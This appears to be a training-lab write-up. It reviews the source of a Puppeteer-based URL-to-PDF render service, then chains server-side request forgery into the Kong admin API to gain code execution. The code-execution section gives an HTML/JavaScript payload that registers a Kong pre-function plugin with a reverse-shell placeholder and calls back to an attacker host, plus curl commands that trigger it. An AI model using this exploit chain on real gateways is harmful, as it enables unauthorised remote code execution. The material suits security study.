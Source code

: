 ## The Render Service

The Render Service is an open-source _URL to PDF microservice_.
Visiting the GitHub source of the API, we see a warning:

![](../../03.%20Screenshots/t9-ss30.png)

The API is not supposed to be run publicly, however we have access to the service. We can now begin our source code review of the API, to find any potential RCE points.

We start by reviewing the src folder, the router.js file:

![](../../03.%20Screenshots/t9-ss31.png)
The code starts by importing various frameworks, such as express, and middleware, such as express-validator. It also imports 3 custom objects, from the /util/validation js file.
Reviewing the code further:

![](../../03.%20Screenshots/t9-ss32.png)

The code defines the router for GET requests to /api/render.
The first parameter to the render.get function is the URI path.
The 2nd parameter is a validation function that receives the getRenderSchema object.
Finally, the handler function is called(set by last parameter, render.getRender)

We can now move on to review validation function:

![](../../03.%20Screenshots/t9-ss33.png)

The code first starts off by importing the Joi library to define and validate the shapes of objects that will represent the body of an HTTP request.
The first variable is urlSchema that is a Joi string schema that requires the string to be a valid URL, with the the http or https schema

However, our main interest is the variable that was seen in the router.js file:

![](../../03.%20Screenshots/t9-ss34.png)

The _renderQuerySchema_ definition is also a Joi object.
The code defines a url parameter with the value of urlSchema.required() function.
These settings should prevent the application from processing a URL with the FILE protocol.
We can see that by making a request to the local /etc/passwd file:

![](../../03.%20Screenshots/t9-ss35.png)

The error thrown tells that a valid URL needs to be provided.

Now that we understand the validation, we can now move on to understanding the handler render.getRender function.
We first look for the function using a simple grep query:

![](../../03.%20Screenshots/t9-ss36.png)

however, we notice that:

![](../../03.%20Screenshots/t9-ss37.png)

The getRender function performs some additional validation by calling assertOptionsAllowed.
The options are then passed to the renderCore.render function.
We can study this function in the core/render-core.js file:

![](../../03.%20Screenshots/t9-ss38.png)
Starting off with the import statements, we see that the application uses puppeteer, which is a Node library for programmatically managing chrome.

![](../../03.%20Screenshots/t9-ss39.png)

![](../../03.%20Screenshots/t9-ss40.png)

![](../../03.%20Screenshots/t9-ss41.png)

The function first declares a browser object.
The createBrowser function, which creates a new browser process using puppeteer, sets the value of the object.
Then, a new page is created.
A page in this context can be thought of as single tab in the browser.
The code then defines several response handlers.
Finally, the function checks if HTML was submitted as part of the request. If not, the function loads the submitted URL in the browser.

At the end of the function:

![](../../03.%20Screenshots/t9-ss42.png)

If the requested output is a PDF, the function calls the _page.pdf_ function and sets the results in the data variable.
Otherwise, if the requested output format is HTML, the function instead calls page.evaluate, which returns the loaded page's innerHtml element.

## Code Execution

After a review on the documentation, we find that Kong admin plugins can be a good place to start.
For example, the serverless Functions plugin have an interesting warning in the documentation:

```txt
Warning: The pre-function and post-function serverless plugin allows anyone who can enable the plugin to execute arbitrary code. If your organization has security concerns about this, disable the plugin in your kong.conf file.
```

We can check if Kong has the plugin enabled:

![](../../03.%20Screenshots/t9-ss43.png)

According to the Kong documentation, we have to add a plugin to a service.
We could add the plugin to an existing service, but let's limit the exposure of it by creating a new service. A Service needs a Route for us to call it.
We will create a new HTML page with a JavaScript function that creates a service, adds a route to the service, then adds our Lua code as a "pre-function" plugin to the service.

We will use the following script:
 
```html
<html>
<head>
<script>

function createService() {
    fetch("http://172.16.16.2:8001/services", {
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"supersecret", "url": "http://127.0.0.1/"})
    }).then(function (route) {
      createRoute();
    });
}

function createRoute() {
    fetch("http://172.16.16.2:8001/services/supersecret/routes", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"paths": ["/supersecret"]})
    }).then(function (plugin) {
      createPlugin();
    });  
}

function createPlugin() {
    fetch("http://172.16.16.2:8001/services/supersecret/plugins", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"pre-function", "config" :{ "access" :[  REVERSE SHELL HERE ]}})
    }).then(function (callback) {
      fetch("http://192.168.118.3/callback?setupComplete");
    });  
}
</script>
</head>
<body onload='createService()'>
<div></div>
</body>
</html>
```

Here, the first function, sends a POST request to create a new service named "supersecret".
The function then calls the 2nd createRoute() function, which adds the "supersecret" route to the new service.
It then calls the 3rd createPlugin() function, which adds our Lua payload as a plugin on the service.
Finally, it makes a GET request to our Kali host.

Now that our payload is ready, we will execute it with the following IP:

```bash
curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://<attacker IP>/rce.html"}' http://apigateway:8000/files/import
```

We know our request is successful as we get a callback on our apache server:

![](../../03.%20Screenshots/t9-ss44.png)

Finally, we make a curl request to our new malicious plugin:
```bash
curl -i  http://apigateway:8000/supersecret
```

And get the RCE:

![](../../t9-ss45.png)